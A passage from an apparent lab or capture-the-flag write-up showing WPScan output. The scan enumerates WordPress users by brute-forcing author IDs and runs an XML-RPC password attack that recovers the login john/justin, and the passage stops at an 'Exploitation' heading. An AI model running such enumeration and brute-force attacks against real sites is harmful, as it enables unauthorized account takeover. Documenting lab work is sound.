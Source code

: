 ```bash
[i] No plugins Found.

[+] Enumerating Users (via Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=====> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / justin                                                          
Trying john / justin Time: 00:00:19 <          > (130 / 1705)  7.62%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: justin

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 1
 | Requests Remaining: 24

[+] Finished: Wed Oct 18 03:33:37 2023
[+] Requests Done: 185
[+] Cached Requests: 6
[+] Data Sent: 86.211 KB
[+] Data Received: 168.161 KB
[+] Memory used: 209.742 MB
[+] Elapsed time: 00:00:25
```

We got `john:justin` as a login into the wordpress database. 

![](/images/writeup/internship/hidrogen/wordpressdashboard.PNG)
## Exploitation
